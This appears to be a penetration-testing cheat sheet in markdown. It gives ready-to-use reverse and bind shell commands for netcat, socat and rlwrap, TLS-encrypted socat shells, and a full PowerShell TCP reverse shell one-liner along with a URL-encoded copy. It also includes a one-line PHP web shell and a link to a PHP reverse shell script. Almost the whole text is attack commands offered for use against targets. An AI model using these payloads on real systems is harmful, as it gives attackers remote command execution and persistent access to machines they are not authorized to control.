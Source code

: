 ### Reverse shells

#### Netcat

Reverse shell listener: `nc -nlvp <port number>`

Connect back: `nc <ip address> <port number>`
Another command to connect back: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

Bind shell:

Starting a listener in a Windows target: `nc -lvnp <PORT> -e /bin/bash`
Starting a listener in a Linux target: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### rlwrap

Description: Gives a more interactive shell, useful for Windows target

Reverse shell listener: `rlwrap nc -nlvp <port number>`

Connecting to the listener: `nc <ip address> <port number>`

### Socat

#### Reverse shell

Reverse shell listener: `socat TCP-L:<port> -`

Connect back:
In Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
In Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

#### Bind shell

In Windows target: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
In Linux target: `socat TCP-L:<PORT> EXEC:"bash -li"`

Connecting: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

#### Fully stable Linux tty reverse shell

Reverse shell listener: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Get [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the target's machine if the target doesn't have Socat installed

Connect back: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

#### Encrypted shell

1. Generate a certificate in the attacking machine: `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. Convert the 2 created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`
3. Set up the reverse shell listener: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
4. Connect back: `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

Bind encrypted shell:

Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

### Powershell

Connect to a netcat listener: `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Webshell

Shell that let's you execute commands: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

PHP shell(won't work for Windows target by default): [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Power shell encrypted shell for Windows target (can be used as a CMD argument): `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`